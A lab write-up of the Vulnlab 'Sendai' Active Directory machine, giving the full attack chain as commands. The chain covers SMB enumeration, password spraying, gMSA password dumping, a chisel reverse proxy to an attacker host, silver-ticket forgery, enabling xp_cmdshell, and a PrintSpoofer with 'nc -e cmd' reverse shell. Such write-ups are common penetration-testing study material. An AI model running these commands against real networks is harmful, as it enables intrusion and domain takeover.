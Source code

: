 ```yaml
---
title: Vulnlab Standalone - Sendai
date: 2024-03-21
categories: [vulnlab]
tags: [AD]
pin: false
---
```


## Vulnlab Standlone - Sendai
![_install](/assets/img/VL-Sendai/sendai.png)

# Initial Access
Starting off, I added the following entries to the /etc/hosts file:
```
10.10.64.43 sendai.vl
10.10.64.43 dc.sendai.vl
```

Started of with an initial nmap scan which revealed the following information:
```
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-03-14 18:08:52Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: sendai.vl0., Site: Default-First-Site-Name)
443/tcp  open  ssl/http      Microsoft IIS httpd 10.0
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: sendai.vl0., Site: Default-First-Site-Name)
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sendai.vl0., Site: Default-First-Site-Name)
3389/tcp open  ms-wbt-server Microsoft Terminal Services
```

Using smbclient I listed the shares and checked if there any shares which are open for unauthenticated use:
```
smbclient -L \\\\DC.sendai.vl\\
Password for [WORKGROUP\root]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        config          Disk
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share
        sendai          Disk      company share
        SYSVOL          Disk      Logon server share
        Users           Disk
```
Upon checking the Sendai share, I found a txt file mentioning that a penetration test discovered numerous weak passwords, recommending changes as soon as possible. Also, in the transfers folder, I found the UserProfiles for a few users within the domain:
```
 smb: \transfer\> ls
  .                                   D        0  Tue Jul 11 15:00:20 2023
  ..                                  D        0  Tue Jul 18 19:31:04 2023
  anthony.smith                       D        0  Tue Jul 11 14:59:50 2023
  clifford.davey                      D        0  Tue Jul 11 15:00:06 2023
  elliot.yates                        D        0  Tue Jul 11 14:59:26 2023
  lisa.williams                       D        0  Tue Jul 11 14:59:34 2023
  susan.harper                        D        0  Tue Jul 11 14:59:39 2023
  temp                                D        0  Tue Jul 11 15:00:16 2023
  thomas.powell                       D        0  Tue Jul 11 14:59:45 2023
  ```
I saved the usernames to a file called 'users.txt' and tried common passwords such as Sendai01, Summer2024, etc. This method allowed me to recover the password for the user 'lisa.williams':
```
SMB         10.10.64.43     445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:sendai.vl) (signing:True) (SMBv1:False)
SMB         10.10.64.43     445    DC               [-] sendai.vl\lisa.williams:[REDACTED] STATUS_PASSWORD_MUST_CHANGE
```
# Getting access to mgtsvc$
I reset the password for the user with the smbpasswd tool:
```
smbpasswd -U lisa.williams -r sendai.vl
```
Now that we have valid credentials I ran the remote python bloodhound ingestor to enumerate the environment:
```
bloodhound.py --zip -c All -d sendai.vl -u lisa.williams -p P@ssw0rd -dc DC.sendai.vl -ns 10.10.98.198
```
Inspecting the Bloodhound output and further enumerating the domain revealed the following path:
- Lisa.willams has GenericAll on the ADMSVC group
- The ADMSVC group can read the gMSA password of the mgtsvc$ user'
We can abuse this by adding the lisa.williams user to the ADMSVC group using pth-net:
```
pth-net rpc group addmem "admsvc" lisa.williams -U sendai.vl/lisa.williams -S 10.10.64.43 
```
We can exploit this by adding the lisa.williams user to the ADMSVC group using pth-net:
```
gMSADumper.py -u 'lisa.williams' -p 'P@ssw0rd' -d 'sendai.vl' 
```
Using evil-winrm we can get a shell on the target:
```
evil-winrm -i 10.10.98.198 -u 'mgtsvc$' -H [REDACTED]
```

# Crafting silver tickets
Now that we have initial access on the DC I enumerated the system a bit. I found that in the C:\config folder there is a file called '.sqlconfig' which contains the password for the sqlsvc user. Since this user is the service account for the MSSQL service we can forge a silver ticket for a privileged user to escalate privileges. To do this I first created a proxy using chisel which allowes me to interact with the MSSQL service which is running locally. 
On the target machine:
```
cmd /c C:\temp\chisel.exe client [ATTACKER]:8001 R:1080:socks
```
On the attacker machine:
```
chisel server -p 8001 --reverse
```
Next I created a silver ticket using the ticketer.py tool from impacket for the Administrator and imported the kerberos ticket:
```
ticketer.py -spn MSSQL/dc.sendai.vl -domain-sid S-1-5-21-3085872742-570972823-736764132 -nthash [REDACTED] -dc-ip dc.sendai.vl Administrator -domain sendai.vl
export KRB5CCNAME=Administrator.ccache
```
Using this ticket we connect over the proxy to the MSSQL service as Administrator:
```
proxychains -q mssqlclient.py dc.sendai.vl -k
```
Since we have administrative rights we can enable xp_cmdshell so we can execute command on the system:
```
sp_configure 'show advanced options', '1'
sp_configure 'xp_cmdshell', '1'
RECONFIGURE
```

# Escalating to SYSTEM
Since we are the sqlsvc$ account we usually have SeImpersonate privileges which allows us to elevate to SYSTEM. We can confirm this by using:
```
whoami /privileged
```
This confirmed that we indeed have SeImpersonate privileges. Using Printspoofer and netcat I was able to get a reverse shell:
```
cmd /c C:\temp\PrintSpoofer.exe -c "c:\Temp\nc.exe 10.8.0.49 1337 -e cmd"
```

